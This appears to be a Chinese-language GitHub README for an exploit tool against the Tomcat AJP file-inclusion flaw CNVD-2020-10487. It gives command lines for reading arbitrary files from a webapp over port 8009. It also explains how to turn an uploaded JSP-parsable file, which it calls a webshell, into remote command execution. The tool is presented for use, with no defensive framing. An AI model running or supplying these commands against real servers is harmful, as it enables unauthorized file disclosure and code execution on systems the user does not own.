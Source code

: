 # CNVD-2020-10487-Tomcat-Ajp-lfi
Tomcat-Ajp协议文件读取漏洞

## 使用

1. 读取指定webapp下的指定文件
``` shell
python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f path/to/readfile.file -w webappname -p 8009 127.0.0.1
```

运行示例：
![](./img/read_file.png)

2. 执行命令，以此漏洞执行命令的前提是攻击的Tomcat webapp目录中存在内容可控的任意文件，该文件可以不是以.jsp或者.jspx格式结尾的文件，任意文件名即可，只需保证文件内容能被jsp解析器正确解析（可通过webapp提供的文件上传功能实现文件上传）。
且使用方法与读取文件的使用方法有小部分差异，即-w/--webapp的参数值需要指定为webshell所在的webapp下的任意一个jsp文件，如：-w examples/jsp/jsp2/el/basic-arithmetic.jsp
``` shell
python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f path/to/remote_code.file -w webappname/path/to/jspname.jsp -p 8009 127.0.0.1
```

运行示例：
![](./img/code_execute.png)
